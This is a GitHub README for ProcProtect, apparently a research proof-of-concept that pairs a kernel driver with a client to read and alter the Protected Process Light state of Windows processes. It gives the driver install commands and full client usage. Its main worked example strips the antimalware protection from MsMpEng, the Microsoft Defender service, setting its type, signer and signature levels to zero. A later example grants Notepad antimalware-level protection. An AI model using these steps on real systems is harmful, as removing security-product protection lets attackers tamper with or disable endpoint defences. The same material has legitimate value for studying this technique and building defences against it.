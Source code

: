 # ProcProtect

PoCs to manipulate Protected Process.

## Installation

```
PS C:\> sc.exe create ProcProtect type= kernel binpath= C:\Dev\ProcProtectDrv_x64.sys
PS C:\> sc.exe start ProcProtect
```

## Client Program Usage

Client program can get and update Protected Process state.

```
PS C:\Dev> .\ProcProtectClient.exe -h

ProcProtectClient - Client for ProcProtectDrv.

Usage: ProcProtectClient.exe [Options]

        -h, --help    : Displays this help message.
        -g, --get     : Flag to get protection information from process.
        -u, --update  : Flag to update process protection.
        -p, --pid     : Specifies a target PID in decimal format. Use with -s flag, or -e and -H flag.
        -t, --type    : Specifies a ProtectedType in decimal format. Default is 0 (None).
        -s, --signer  : Specifies a ProtectedSigner in decimal format. Default is 0 (None).
        -l, --level   : Specifies a SignatureLevel in decimal format. Default is 0.
        -S, --section : Specifies a SectionSignatureLevel in decimal format. Default is 0.

[!] -p option is required.
```

Target PID can be specified with `-p` option.
You can check Protected Process state with `-g` flag:

```
PS C:\Dev> Get-Process msmpeng

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1259      80   235000     155956              4212   0 MsMpEng


PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 4212.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 55
    [*] Section Signature Level : 7
[*] Done.
```

To update Protected Process state, set `-u` flag.
If you only set PID, client program will try to set all parameter to zero:

```
PS C:\Dev> Get-Process msmpeng

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1259      80   235000     155956              4212   0 MsMpEng


PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D8)
[+] Got protection information of PID 4212.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 55
    [*] Section Signature Level : 7
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -u -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Protection of PID 4212 is updated.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 0
    [*] Section Signature Level : 0
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -g -p 4212

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 4212.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 0
    [*] Section Signature Level : 0
[*] Done.
```
Protected Process parameters can be specified with following options:

* `-t` - `ProtectedType` (`0` to `2` is valid)
* `-s` - `ProtectedSigner` (`0` to `8` is valid)
* `-l` - `SignatureLevel` (`0` to `255` is valid)
* `-S` - `SectionSignatureLevel` (`0` to `255` is valid)

```
PS C:\Dev> Get-Process notepad

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    578      29    14932      76324       0.56   5696   1 Notepad


PS C:\Dev> .\ProcProtectClient.exe -g -p 5696

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Got protection information of PID 5696.
    [*] Protected Type          : None
    [*] Protected Signer        : None
    [*] Signature Level         : 2
    [*] Section Signature Level : 2
[*] Done.

PS C:\Dev> C:\Dev\ProcProtectClient.exe -u -p 5696 -t 1 -s 3 -l 41 -S 42

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D0)
[+] Protection of PID 5696 is updated.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 41
    [*] Section Signature Level : 42
[*] Done.

PS C:\Dev> .\ProcProtectClient.exe -g -p 5696

[>] Sending a query to \??\ProcProtect.
[+] Got a handle to \??\ProcProtect (Handle = 0x2D4)
[+] Got protection information of PID 5696.
    [*] Protected Type          : ProtectedLight
    [*] Protected Signer        : Antimalware
    [*] Signature Level         : 41
    [*] Section Signature Level : 42
[*] Done.
```

![](./figures/ProcProtect.png)